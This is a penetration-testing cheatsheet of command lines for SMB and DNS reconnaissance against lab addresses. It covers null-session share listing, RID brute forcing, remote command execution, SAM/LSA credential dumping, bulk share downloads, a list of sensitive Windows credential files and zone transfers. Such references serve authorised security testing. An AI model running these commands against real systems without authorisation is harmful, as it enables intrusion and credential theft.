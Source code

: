 # Information Gathering Cheatsheet

## SMB

### Common Tools and Commands

Use nbtscan from [here](http://www.unixwiz.net/tools/nbtscan.html) instead of the version in Kali because of reasons.

```
enum4linux -a 10.11.1.136
nmblookup -A 10.11.1.136
smbclient //MOUNT/share -I 10.11.1.136 -N
smbclient -L //10.11.1.136
rpcclient -U "" 10.11.1.136
mount //10.11.1.5/share /mnt # Mount open shares
```

### Checking SMB Vulnerabilities

```
bash -c "nmap -p 139,445 --script=smb-vuln* 10.11.1.136"
```

### Check For Common SMB Issues

Null Sessions:
```
crackmapexec smb 10.11.1.136 -u '' -p '' --shares
```

RID Brute Forcing:

```
crackmapexec smb 10.11.1.136 -u '' -p '' --rid-brute
```

Code Execution:

```
crackmapexec smb 10.11.1.136 -u '' -p '' -x 'whoami'
```

Read SAM/LSA:

```
crackmapexec smb 10.11.1.136 -u '' -p '' --sam

crackmapexec smb 10.11.1.136 -u '' -p '' --lsa
```

Download Whole Share
```
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '/path/to/download/to/'
mget *
```

### Determine Remote SMB Version

```
ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]'
smbclient -L //<IP>
```

## Coldfusion

Check [this](https://nets.ec/Coldfusion_hacking).

## Sensitive Windows Files

```
%windir%\repair\sam
%windir%\System32\config\RegBack\SAM
%windir%\repair\system
%windir%\repair\software
%windir%\repair\security
%windir%\debug\NetSetup.log (AD domain name, DC name, internal IP, DA account)
%windir%\iis6.log (5,6 or 7)
%windir%\system32\logfiles\httperr\httperr1.log
C:\sysprep.inf
C:\sysprep\sysprep.inf
C:\sysprep\sysprep.xml
%windir%\Panther\Unattended.xml
C:\inetpub\wwwroot\Web.config
%windir%\system32\config\AppEvent.Evt (Application log)
%windir%\system32\config\SecEvent.Evt (Security log)
%windir%\system32\config\default.sav
%windir%\system32\config\security.sav
%windir%\system32\config\software.sav
%windir%\system32\config\system.sav
%windir%\system32\inetsrv\config\applicationHost.config
%windir%\system32\inetsrv\config\schema\ASPNET_schema.xml
%windir%\System32\drivers\etc\hosts (dns entries)
%windir%\System32\drivers\etc\networks (network settings)
%windir%\system32\config\SAM (only really useful if you have access to the files while the machine is off)
```

## DNS

### Zone Transfer

```
host -t axfr <domain> <dns server ip>
dig axfr @10.10.10.123 # For root zone
dig axfr friendzoneportal.red @10.10.10.123 # For specific zone
```

### Enumeration

#### NSLookup

```
nslookup <<< INPUT
SERVER 10.10.10.123
127.0.0.1
10.10.10.123
INPUT
```

#### DNSRecon

```
dnsrecon -r 127.0.0.0/24 -n 10.10.10.123
dnsrecon -r 127.0.1.0/24 -n 10.10.10.123
dnsrecon -r 10.10.10.0/24 -n 10.10.10.123
```

## Resources

[Penetration Testing Tools Cheat Sheet](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/)
[HighOn.Coffee Nmap Cheatsheet](https://highon.coffee/blog/nmap-cheat-sheet/)
